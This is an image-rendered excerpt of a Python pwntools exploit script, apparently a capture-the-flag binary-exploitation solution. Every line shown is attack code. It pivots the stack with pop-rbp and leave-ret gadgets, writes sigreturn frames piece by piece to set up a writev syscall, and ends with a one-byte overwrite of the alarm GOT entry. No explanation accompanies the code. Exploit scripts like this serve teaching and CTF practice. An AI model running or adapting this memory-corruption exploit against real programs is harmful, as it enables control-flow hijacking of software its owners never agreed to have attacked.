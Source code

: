 ```py
pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+6*8+0x18+0x20+0x20-8)*2 + p64(mis_aligned_read))
io.send(next_rip + b"2"*8 + b"3"*16 + p64(signal_got+0x20) +  p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+6*8+0x18+0x20+0x20+16-8)*2 + p64(mis_aligned_read))
io.send(p64(0x33) + b"4"*16 + p64(0x2b) + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+6*8+0x18+0x20+0x20+40+8-8)*2 + p64(mis_aligned_read))
io.send(b"\x00"*8*4 + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_2+6*8+0x18+0x20+0x20+40+8+40)*2 + p64(mis_aligned_read))
io.send(p64(exe.plt["alarm"]) + p64(pop_rbp) + p64(pivot_4+0x20) + p64(mis_aligned_read) + p64(signal_got+0x20) + p64(mis_aligned_read))

# setup sigframe 3
iovec = buf + count
io_vec_addr = p64(0x404478)
fd = p64(1) # stdout
vlen = p64(1) # vector count, we have 1

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+8+0x10+0x20-8)*2 + p64(mis_aligned_read))
io.send(iovec + fd + io_vec_addr + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+8*4+0x18+0x10+0x20-8)*2 + p64(mis_aligned_read))
io.send(vlen + SYS_writev + b"A"*8 + next_rsp + p64(signal_got+0x20) +  p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+6*8+0x18+0x20+0x20-8)*2 + p64(mis_aligned_read))
io.send(next_rip + b"2"*8 + b"3"*16 + p64(signal_got+0x20) +  p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+6*8+0x18+0x20+0x20+16-8)*2 + p64(mis_aligned_read))
io.send(p64(0x33) + b"4"*16 + p64(0x2b) + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+6*8+0x18+0x20+0x20+40+8-8)*2 + p64(mis_aligned_read))
io.send(b"\x00"*8*4 + p64(signal_got+0x20) + p64(mis_aligned_read))

pause()
io.send(p64(pop_rbp) + p64(0x404040) + p64(leave_ret) + p64(sig_frame_3+6*8+0x18+0x20+0x20+40+8+40)*2 + p64(mis_aligned_read))
io.send(p64(exe.plt["alarm"]) + p64(pop_rbp) + p64(0x4042d8) + p64(mis_aligned_read) + p64(signal_got+0x20) + p64(mis_aligned_read))

# 1-byte overwrite
pause()
io.send(p64(pop_rbp) + p64(pivot_2) + p64(mis_aligned_read) + p64(alarm_got+0x20-8)*2 + p64(mis_aligned_read))
io.send(p64(0x4040a8+0x20)*5 + b"\x0b")
```